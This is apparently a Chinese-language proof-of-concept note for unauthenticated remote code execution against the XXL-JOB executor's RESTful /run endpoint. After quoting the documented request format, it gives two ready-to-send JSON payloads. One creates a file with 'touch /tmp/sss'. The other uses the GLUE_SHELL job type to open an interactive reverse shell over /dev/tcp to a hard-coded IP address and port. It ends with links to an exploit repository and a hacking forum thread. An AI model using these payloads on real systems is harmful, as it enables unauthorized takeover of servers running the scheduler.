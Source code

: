 # xxl-job 执行器 RESTful API 未授权访问 RCE


PoC：

以restful API 来看，看官方文档 xxl-job/XXL-JOB官方文档.md ，在没有access token的情况下 ，可以直接触发任务


```
POST {执行器内嵌服务跟地址}/run

   
    {
        "jobId":1,                                  // 任务ID
        "executorHandler":"demoJobHandler",         // 任务标识
        "executorParams":"demoJobHandler",          // 任务参数
        "executorBlockStrategy":"COVER_EARLY",      // 任务阻塞策略，可选值参考 com.xxl.job.core.enums.ExecutorBlockStrategyEnum
        "executorTimeout":0,                        // 任务超时时间，单位秒，大于零时生效
        "logId":1,                                  // 本次调度日志ID
        "logDateTime":1586629003729,                // 本次调度日志时间
        "glueType":"BEAN",                          // 任务模式，可选值参考 com.xxl.job.core.glue.GlueTypeEnum
        "glueSource":"xxx",                         // GLUE脚本代码
        "glueUpdatetime":1586629003727,             // GLUE脚本更新时间，用于判定脚本是否变更以及是否需要刷新
        "broadcastIndex":0,                         // 分片参数：当前分片
        "broadcastTotal":0                          // 分片参数：总分片
    }
    
```

第一次测试 meng
{
"jobId":1, 
"executorHandler":"demoJobHandler",
"executorParams":"demoJobHandler", 
"executorBlockStrategy":"COVER_EARLY", 
"executorTimeout":0, 
"logId":1, 
"logDateTime":1586629103729, 
"glueType":"BEAN",
"glueSource":"touch /tmp/sss", 
"glueUpdatetime":1586629103727, 
"broadcastIndex":0,
"broadcastTotal":0 
,"gtoyitijdum":"="}

第二次测试   meng
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "/bin/sh -i >& /dev/tcp/10.30.7.128/31055 0>&1 ",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}


jas502n：https://github.com/jas502n/xxl-job


https://forum.ywhack.com/thread-114622-1-5.html